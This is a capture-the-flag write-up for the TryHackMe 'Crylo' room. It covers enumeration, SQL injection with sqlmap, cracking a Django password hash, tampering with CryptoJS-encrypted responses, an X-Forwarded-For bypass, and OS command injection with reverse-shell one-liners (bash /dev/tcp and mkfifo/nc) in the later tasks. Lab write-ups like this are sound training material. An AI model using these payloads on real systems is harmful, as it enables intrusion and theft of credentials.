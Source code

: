 # Crylo

A writeup for the room [Crylo](https://tryhackme.com/room/crylo4a) on TryHackMe.

> Learn about the CryptoJS library and JavaScript-based client-side encryption and decryption.

<Image src={require("./logo.png").default} width="256" />

## Task 1 - Enumeration

> How many ports are open?

Start the machine and scan the ports with nmap.

```bash
nmap -sS -p- -v [IP]
```

<Image src={require("./nmap.png").default} />

> What is the 403/forbidden web page?

Open the web page in the browser and check the source code.

Other pages return a 404 error.

<Image src={require("./homepage.png").default} />

Nothing seems to be interesting, so we can try to enumerate the website with gobuster.

It is important to set the `-s` flag to search for at least the 403 status code.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,css,js -q -s "200,403" -u [URL]
```

<Image src={require("./gobuster.png").default} />

## Task 2 - Injection

> What is the name of the first username?

It is a common name for the default user of a web application.

> What is the password for the above user?

We can try to login with common credentials, but nothing tried works.

<Image src={require("./login.png").default} />

Looking to the response we can see that the final text cannot be parsed directly.

However, the client understands it perfectly and shows the result.

It is possible to look to the code to find how it works.

<Image src={require("./code-login.png").default} />

The client decrypts the response using the CryptoJS library.

The response is encrypted using the AES algorithm with the CBC mode and a hardcode string as key and IV.

Using Cyberchef it is possible to convert the response and see its content.

<Image src={require("./decrypt-response.png").default} />

Now that the request is known, we can try sqlmap to see if it is vulnerable to SQL injection.

The easy way to manage the request is to save it in a file and use the `-r` flag.

Using the standard risk level is not enough, add `--risk=3 --level=3` to increase it and find a vulnerability.

```bash
# Enumerate databases
sqlmap -r request --risk=3 --level=3 --dbs

# Enumerate tables in food database
sqlmap -r request --risk=3 --level=3 --tables -D food

# Dump auth data to get the hash of the admin password
sqlmap -r request --risk=3 --level=3 --dump -T auth_user -D food
sqlmap -r request --risk=3 --level=3 --dump -T auth_user -D food --data "username=admin" -C password
```

Follow the default answer for all questions except:

```
you provided a HTTP Cookie header value. The target URL provided its own cookies within the HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
```

We can obtain a hash of the admin password that be cracked with a tool like hashcat.

Analyzing the hash with hashid we can find the hash type is Django (PBKDF2-SHA256).

```bash
# Save hash in a file
echo "pbkdf2_sha256$260000$HxnWVrw647R53GeEUksjW5$SggM3ZAh86qRZtnn0VbWOSmHWhckfVvIsMG+jTZstpE=" > hash.txt

# Get hash type for hashcat
hashid -m hash.txt

# Crack the hash with mode 10000 (Django (PBKDF2-SHA256))
hashcat -m 10000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<Image src={require("./hashcat.png").default} />

## Task 3 - Encryption

> Which library is used for encryption and decryption?

Look in `/static/js/validation.js` to find the answer.

The library can be easily recognized by the capitalized name of the variable.

<Image src={require("./encryption.png").default} />

> Which JSON parameter was used to validate the pin?

Look in `/static/js/validation.js` to find the answer.

There is a specific if statement for the pin parameter.

<Image src={require("./pin-set.png").default} />

> Which encryption method is used?

Look in `/static/js/validation.js` to find the answer.

At the beginning of the file there is a comment that says that the encryption method is AES.

## Task 4 - Forbidden Bypass

> What extra header can be used to bypass the page?

Firstly, bypass the login changing the value of `pin_set` to `false`.

```
{"pin_set": "true", "email": "admin@admin.com", "success": "true"}
iL6SVLGiiyY47lh6kX353MqD9I+mcSncHWhuJl6Dg7umFTYotHmMKiPaluJ8J35LebkAv3FSyusGIO8rxwJztzwHX9Ot64ltTlbzi/spfQ4=

{"pin_set": "false", "email": "admin@admin.com", "success": "true"}
HS0kn8CQhTz7NwgLMw9tP1mWXHssgMd2MRJ9EeChrTiPlSg9HGgxyshgHbMYjhFnVbpEi5lm1bRMbgbdebHsfVsN+90GzIuDMX+SBBI9wdY=
```

> What extra header can be used to bypass the page?

Use the `X-Forwarded-For` header to bypass the IP check.

It can be easily added using Burp Suite.

Be careful to always add the header before sending any request.

```
X-Forwarded-For: 127.0.0.1
```

Once the header is added, you will see a simple input text and a submit button.

Send a request and move it to the repeater to simplify the work.

We can check for remote code execution using the following payload.

```bash
22 && sleep 10
```

We can see that the command is executed, so we can try to get a reverse shell.

```bash
ifconfig
nc -nlvp 1337
22 && bash -i >& /dev/tcp/[IP]/1337 0>&1
22 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.172.114 1337 >/tmp/f
```

## Task 5 - Exploitation

> What is the name of the vulnerability used to gain system access?

The vulnerability that we exploited is based on the debug form.

We can send OS commands to be executed on the target server.

[https://portswigger.net/kb/issues/00100100_os-command-injection](https://portswigger.net/kb/issues/00100100_os-command-injection)

> What is the current system’s username?

Once you obtain a reverse shell is enough to run `whoami` to get the answer.

```bash
whoami
```

> What is the user flag?

Go to the home directory of the user to find the flag.

```bash
cd
cat user.txt
```

> Which user is part of the sudo group?

It is enough to check the sudo group to find the answer.

```bash
getent group sudo
```

> What is the password for the above user?

> What is the root flag?
